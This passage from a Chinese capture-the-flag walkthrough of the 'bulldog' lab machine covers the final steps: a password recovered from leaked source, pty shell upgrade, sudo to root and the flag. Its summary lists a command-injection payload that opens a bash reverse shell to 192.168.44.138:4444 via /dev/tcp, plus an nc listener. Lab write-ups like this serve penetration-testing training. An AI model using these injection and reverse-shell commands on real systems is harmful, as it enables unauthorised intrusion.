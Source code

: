 ```
SUPERultH
imatePASH
SWORDyouH
CANTget
```

*   密码：SUPERultimatePASSWORDyouCANTget
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg95nsv7ZIdJC3Rm4kKf7Qff7rkgVmW7oAlF6lIRLAmJLTAyFWxtuorpg/640?wx_fmt=png)

接着想办法用上面的密码提升 django 或者 bulldogadmin 权限，我们想通过 sudo su - root 拿到 root，但提示 “su must be run from a terminal”。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9zF2A3WEalLwMCS3L9SHricAd4TEQgN64nZFsF4o8y8Jbibb7NrXUP0MQ/640?wx_fmt=png)

这里补充一个技巧，可以用 Python 调用本地的 shell 实现，命令如下：

*   python -c 'import pty; pty.spawn("/bin/bash")'
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9Xg49oeSRU87uDCGYVRkQWzP0GuPPmTIgGWzsfpbmegjNA3X9g8SVLg/640?wx_fmt=png)

然后执行命令 sudo su -，输入刚才记下来的密码，成功从 django 权限提升到 root 权限，最终成功获得 root 权限并拿到 flag。

*   sudo su -
    
*   密码：SUPERultimatePASSWORDyouCANTget
    

输入 ls 命令，发现里面只有一个文本文档，再输入 cat congrats.txt 查看文件，最后读取 flag 文件。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9xQ43BzMH9hr9vibn6ZuQwEyCy5HDEA0SiaCBUcuMuONmno3XyomfmGZg/640?wx_fmt=png)

三. 总结
=====

写道这里，这篇文章讲解完毕，后续会更深入的分享。bulldog 的渗透流程如下：

*   信息收集  
    目标 IP 探测 (arp-scan、netdiscover、nmap)  
    Nmap 端口扫描
    
*   目录扫描  
    用 dirb 扫出了许多关键目录（admin 和 dev 页面）
    
*   敏感文件查找及网页访问
    
*   MD5 破解（在线破解、hash-identifier）  
    仔细观察网页信息，该靶机主要在 / dev 目录处前端源码泄露了 MD5 密码信息
    
*   登录管理员账号，并在 / dev/shell 页面利用命令注入漏洞
    
*   命令注入和 shell 反弹  
    命令拼接（ls &&echo “bash -i>&
    
    /dev/tcp/192.168.44.138/4444 0>&1” | bash）  
    nc 反弹 shell（nc -lvp 4444）  
    Python 搭建临时 Web 服务（python -m SimpleHTTPServer 80）
    